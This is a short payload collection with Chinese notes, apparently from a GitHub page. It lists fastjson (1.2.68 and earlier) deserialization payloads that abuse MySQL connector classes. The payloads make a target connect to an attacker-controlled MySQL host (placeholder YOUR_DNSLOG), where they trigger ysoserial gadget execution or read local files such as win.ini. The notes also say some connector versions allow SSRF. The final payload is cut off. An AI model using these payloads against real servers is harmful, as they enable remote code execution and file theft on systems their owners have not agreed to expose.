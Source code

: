   
fastjson<=1.2.68 mysql-connector-java-6.0.2-6.0.3可反序列化  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection",
  "proxy": {
    "connectionString": {
      "url": "jdbc:mysql://YOUR_DNSLOG:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_xxx_calc"
    }
  }
}
```  
  
fastjson<=1.2.68 mysql-connector-java-8.0.19可反序列化，>8.0.19可SSRF  
```
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
    "proxy": {
        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
        "connectionUrl": {
            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
            "masters": [{
                "host": ""
            }],
            "slaves": [],
            "properties": {
                "host": "YOUR DNSLOG",
                "user": "yso_xxx_calc",
                "dbname": "dbname",
                "password": "pass",
                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                "autoDeserialize": "true"
            }
        }
    }
}
```  
  
另一种写法  
```
{
"@type": "java.lang.AutoCloseable",
"@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
  "proxy": {
    "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
    "connectionUrl": {
      "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
      "masters": [
        {
          "host": ""
        }
      ],
      "properties": {
        "allowUrlInlocalInfile": "true",
        "allowLoadLocalInfile": "true",
        "autoDeserialize": "true",
        "dbname": "dbname",
        "host": "YOUR_DNSLOG",
        "password": "pass",
        "port": "7777",
        "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
        "user": "win_ini"
      },
```